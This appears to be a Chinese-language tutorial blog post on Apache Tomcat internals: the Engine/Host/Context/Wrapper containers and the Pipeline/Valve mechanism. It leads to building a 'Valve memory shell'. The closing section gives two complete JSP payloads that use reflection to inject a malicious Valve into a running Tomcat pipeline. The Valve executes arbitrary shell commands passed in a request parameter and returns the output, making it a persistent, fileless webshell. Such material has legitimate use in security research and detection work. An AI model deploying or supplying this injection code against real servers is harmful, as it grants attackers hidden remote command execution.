










Tomcat的两个核心组件连接器：Connector和Container

```
Tomcat的Container分为四个层级，从上到下依次为：
1.Engine（引擎）：
一个 Tomcat 实例中只能有一个 Engine，负责处理所有进入 Tomcat 的请求。
是 Container 的顶层容器，管理多个 Host 容器。
2.Host（主机）：
代表一个虚拟主机，通常对应一个域名（如 example.com）。
每个 Host 管理多个 Context 容器，负责将请求按域名分发到不同的 Web 应用。
3.Context（上下文）：
代表一个 Web 应用，对应服务器上的一个 Web 应用目录（如 /webapps/myapp）。
管理 Servlet 的注册、初始化及请求的具体处理逻辑。
4.Wrapper（包装器）：
最底层的容器，直接封装一个 Servlet 实例。
负责处理单个 Servlet 的请求，是 Container 架构的最基本单元。
```

Container处理的第一层就是Engine容器，但是在tomcat中Engine容器不会直接调用Host容器去处理请求，而是调用了自己的pipeline组件去处理，跟pipeline相关的还有个也是容器内部的组件，叫做value组件。

Pipeline的作用就如其中文意思一样——管道，可以把不同容器想象成一个独立的个体，那么pipeline就可以理解为不同容器之间的管道，道路，桥梁。那Valve这个组件是什么东西呢？Valve也可以直接按照字面意思去理解为阀门。我们知道，在生活中可以看到每个管道上面都有阀门，Pipeline和Valve关系也是一样的。Valve代表管道上的阀门，可以控制管道的流向，当然每个管道上可以有多个阀门。如果把Pipeline比作公路的话，那么Valve可以理解为公路上的收费站，车代表Pipeline中的内容，那么每个收费站都会对其中的内容做一些处理（收费，查证件等）。

在catalina中，4种容器都有自己的Pipeline组件，每个Pipeline组件上至少会设定一个Valve，这个Valve我们称之为BaseValve，也就是基础阀。基础阀的作用是连接当前容器的下一个容器（通常是自己的自容器），可以说基础阀是两个容器之间的桥梁。

Pipeline定义对应的接口Pipeline，标准实现了StandardPipeline。Valve定义对应的接口Valve，抽象实现类ValveBase，4个容器对应基础阀门分别是StandardEngineValve，StandardHostValve，StandardContextValve，StandardWrapperValve。

Catalina 是 Apache Tomcat 的核心组件，它是 Servlet 容器 的具体实现，负责处理和管理 Java Web 应用的运行环境

用springboot-web代替tomcat的环境
创建test目录下的两个文件
```
package org.example.valvememoryshelldemo.test;

import java.io.IOException;
import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.Response;
import org.apache.catalina.valves.ValveBase;
import org.springframework.stereotype.Component;

@Component
public class TestValve extends ValveBase {
    @Override
    public void invoke(Request request, Response response) throws IOException {
        response.setContentType("text/plain");
        response.setCharacterEncoding("UTF-8");
        response.getWriter().write("Valve 被成功调用");
    }
}
```


```
package org.example.valvememoryshelldemo.test;

import org.apache.catalina.Valve;
import org.springframework.boot.web.embedded.tomcat.TomcatServletWebServerFactory;
import org.springframework.boot.web.server.WebServerFactoryCustomizer;
import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;

@Configuration
public class TestConfig {
    @Bean
    public WebServerFactoryCustomizer<TomcatServletWebServerFactory> tomcatCustomizer() {
        return factory -> {
            factory.addContextValves(getTestValve());
        };
    }

    @Bean
    public Valve getTestValve() {
        return new TestValve();
    }
}
```
通常情况下用的ValveBase，点进ValveBase，看到实现了Valve接口：

```
public interface Valve {
    Valve getNext();  // 获取下一个阀门

    void setNext(Valve var1); // 设置下一个阀门

    void backgroundProcess(); // 后台执行逻辑，主要在类加载上下文中使用到

	// 执行业务逻辑
    void invoke(Request var1, Response var2) throws IOException, ServletException;

	// 是否异步执行
    boolean isAsyncSupported();
}

```
接下来进行调试，看看之前调用的invoke方法在StandardHostValve.java中，代码为：
```
context.getPipeline().getFirst().invoke(request, response);
```

在StandardEngineValve中为
```
host.getPipeline().getFirst().invoke(request, response);
```

后面就不关注了，就关注自己能打进去的value内存马

进去，点击图中的红框箭头

进去对应的pipeline接口


看到addvalue方法

无法直接获取到这个StandardPipeline，而我们能直接获取到的是StandardContext，那就去看看StandardContext.java中有没有获取StandardPipeline的方法。getPipeline能实现获取


那这样以来我们的思路就可以补充完整了，先反射获取StandardContext，然后编写一个恶意Valve，最后通过StandardContext.getPipeline().addValve()添加就可以了。当然，我们也可以反射获取StandardPipeline，然后再addValve，这样也是可以的。
```
采用了从StandardContext反射获取StandardPipeline的方式
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.core.*" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.PrintWriter" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
    Field requestField = request.getClass().getDeclaredField("request");
    requestField.setAccessible(true);
    final Request req = (Request) requestField.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();
    Field pipelineField = ContainerBase.class.getDeclaredField("pipeline");
    pipelineField.setAccessible(true);
    StandardPipeline evilStandardPipeline = (StandardPipeline) pipelineField.get(standardContext);
    ValveBase evilValve = new ValveBase() {
        @Override
        public void invoke(Request request, Response response) throws ServletException,IOException {
            if (request.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in, "GBK").useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                response.setCharacterEncoding("GBK");
                PrintWriter out = response.getWriter();
                out.println(output);
                out.flush();
                out.close();
                this.getNext().invoke(request, response);
            }
        }
    };
    evilStandardPipeline.addValve(evilValve);
    out.println("inject success");
%>
```


```
调用 standardContext.getPipeline().addValve实现
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.core.*" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.PrintWriter" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
  class testEvilValve extends ValveBase {
    @Override
    public void invoke(Request request, Response response) throws ServletException,IOException {
      if (request.getParameter("command") != null) {
        boolean isLinux = true;
        String osTyp = System.getProperty("os.name");
        if (osTyp != null && osTyp.toLowerCase().contains("win")) {
          isLinux = false;
        }
        String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("command")} : new String[]{"cmd.exe", "/c", request.getParameter("command")};
        InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
        Scanner s = new Scanner(in, "GBK").useDelimiter("\\A");
        String output = s.hasNext() ? s.next() : "";
        response.setCharacterEncoding("GBK");
        PrintWriter out = response.getWriter();
        out.println(output);
        out.flush();
        out.close();
        this.getNext().invoke(request, response);
      }
    }
  };
%>

<%
  Field requestField = request.getClass().getDeclaredField("request");
  requestField.setAccessible(true);
  final Request req = (Request) requestField.get(request);
  StandardContext standardContext = (StandardContext) req.getContext();
  standardContext.getPipeline().addValve(new testEvilValve());
  out.println("inject success");
%>
```

